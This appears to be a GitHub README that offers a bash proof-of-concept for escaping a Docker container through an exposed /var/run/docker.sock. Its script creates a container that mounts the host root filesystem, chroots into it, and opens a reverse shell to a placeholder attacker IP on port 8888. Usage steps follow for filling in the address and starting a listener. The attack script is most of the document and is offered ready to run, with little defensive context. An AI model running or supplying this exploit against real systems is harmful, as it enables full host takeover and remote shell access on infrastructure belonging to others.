 # Docker.sock-environment-takeover
![](https://)

/var/run/docker.sock could lead to full environment takeover. (Privilege Escalation)

I've written a bash script to automate things written in this article. 

## Proof of Concept
To run this, you have to already have RCE on a container. Even with RCE, most of the time you will not have access to a docker client and installing a docker client might not be possible.

```bash
#!/bin/bash
pay="bash -c 'bash -i >& /dev/tcp/<Attacker-ipaddr>/8888 0>&1'"
payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
revShellContainerID=$(echo "$response" | cut -d'"' -f4)
curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
sleep 1
curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"
````
- Add the attacker ip address to above bash script 
- Start a listener on attacker machine on port 8888. 
- Check the screenshots if you don't understand.

![](https://)
![](https://)


### References
https://dejandayoff.com/the-danger-of-exposing-docker.sock/
